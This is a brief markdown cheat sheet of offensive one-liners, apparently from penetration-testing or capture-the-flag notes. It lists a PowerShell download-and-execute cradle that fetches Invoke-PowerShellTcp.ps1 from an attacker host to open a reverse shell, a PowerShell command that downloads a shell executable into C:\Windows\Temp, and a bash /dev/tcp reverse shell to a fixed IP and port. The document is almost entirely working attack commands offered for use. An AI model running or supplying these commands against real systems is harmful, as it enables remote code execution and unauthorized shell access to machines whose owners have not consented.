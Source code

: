 # Useful Scripts

## Powershell
- Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it:  
`powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port`  

- Download the exploit file from http.server:  
`powershell -c "Invoke-WebRequest -uri 'http://10.2.18.235:8000/shell2.exe' -OutFile 'C:\Windows\Temp\shell.exe'"`  

## Reverse Shell
### Bash TCP
`bash -i >& /dev/tcp/10.2.18.235/1234 0>&1`  
